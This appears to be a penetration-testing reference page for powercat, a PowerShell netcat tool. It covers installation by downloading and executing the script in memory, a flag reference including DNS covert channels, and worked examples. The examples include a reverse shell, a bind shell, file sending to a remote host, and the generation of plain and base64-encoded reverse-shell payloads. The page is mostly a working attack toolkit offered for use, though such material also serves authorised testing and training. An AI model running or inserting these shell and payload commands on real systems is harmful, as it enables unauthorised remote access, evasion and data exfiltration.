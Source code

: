 ```yaml
---
title : "powercat"
# pre : ' '
description : "Netcat: The powershell version. (Powershell Version 2 and Later Supported)."
date : 2022-09-26T14:49:48+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## powercat

Netcat: The powershell version. (Powershell Version 2 and Later Supported)

## Installation

powercat is a powershell function. First you need to load the function before you can execute it. You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.

Download the `.ps1` here and execute with the command below.

{{%attachments title="Related files" fa_icon_class="fas fa-terminal" pattern=".*(ps1)"/%}}

```plain
. .\powercat.ps1
```

Or invoke directly with `iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')`

## Usage

```plain
powercat [-c or -l] [-p port] [options]
```

## Flags

```plain
  -c  <ip>        Client Mode. Provide the IP of the system you wish to connect to.
                  If you are using -dns, specify the DNS Server to send queries to.

  -l              Listen Mode. Start a listener on the port specified by -p.

  -p  <port>      Port. The port to connect to, or the port to listen on.

  -e  <proc>      Execute. Specify the name of the process to start.

  -ep             Execute Powershell. Start a pseudo powershell session. You can
                  declare variables and execute commands, but if you try to enter
                  another shell (nslookup, netsh, cmd, etc.) the shell will hang.

  -r  <str>       Relay. Used for relaying network traffic between two nodes.
                  Client Relay Format:   -r <protocol>:<ip addr>:<port>
                  Listener Relay Format: -r <protocol>:<port>
                  DNSCat2 Relay Format:  -r dns:<dns server>:<dns port>:<domain>

  -u              UDP Mode. Send traffic over UDP. Because it's UDP, the client
                  must send data before the server can respond.

  -dns  <domain>  DNS Mode. Send traffic over the dnscat2 dns covert channel.
                  Specify the dns server to -c, the dns port to -p, and specify the
                  domain to this option, -dns. This is only a client.
                  Get the server here: https://github.com/iagox86/dnscat2

  -dnsft <int>    DNS Failure Threshold. This is how many bad packets the client can
                  recieve before exiting. Set to zero when receiving files, and set high
                  for more stability over the internet.

  -t  <int>       Timeout. The number of seconds to wait before giving up on listening or
                  connecting. Default: 60

  -i  <input>     Input. Provide data to be sent down the pipe as soon as a connection is
                  established. Used for moving files. You can provide the path to a file,
                  a byte array object, or a string. You can also pipe any of those into
                  powercat, like 'aaaaaa' | powercat -c 10.1.1.1 -p 80

  -o  <type>      Output. Specify how powercat should return information to the console.
                  Valid options are 'Bytes', 'String', or 'Host'. Default is 'Host'.

  -of <path>      Output File.  Specify the path to a file to write output to.

  -d              Disconnect. powercat will disconnect after the connection is established
                  and the input from -i is sent. Used for scanning.

  -rep            Repeater. powercat will continually restart after it is disconnected.
                  Used for setting up a persistent server.

  -g              Generate Payload.  Returns a script as a string which will execute the
                  powercat with the options you have specified. -i, -d, and -rep will not
                  be incorporated.

  -ge             Generate Encoded Payload. Does the same as -g, but returns a string which
                  can be executed in this way: powershell -E <encoded string>

  -h              Print this help message.
```

## Examples

### Send a file to receiver

* Receiver: `nc -nlvp 443 > out.txt`

```plain
powercat -c 10.0.0.20 -p 443 -i .\testfile.txt
```

### Shells (reverse/bind)

### Reverse shell

* Receiver: `nc -nlvp 443`
* `-e` - specifies the application that is executed once connected

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe
```

### Bind shell

* `-l` - specifies powercat to create a listener
* `-e` - specifies the application that is executed once connected

```plain
powercat -l -p 443 -e cmd.exe
```

Once a connection is received (`nc <ip> 443`) the bind shell will be initiated.

### Payload Generation

### Standalone payloads

* Non-encoded

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -g > reverse-shell.ps1
```

* Encoded (run with `powershell.exe -E`)

```plain
powercat -c 10.0.0.20 -p 443 -e cmd.exe -ge > reverse-shell.ps1
```

## URL List

* [Github.com - powercat](https://github.com/besimorhino/powercat)
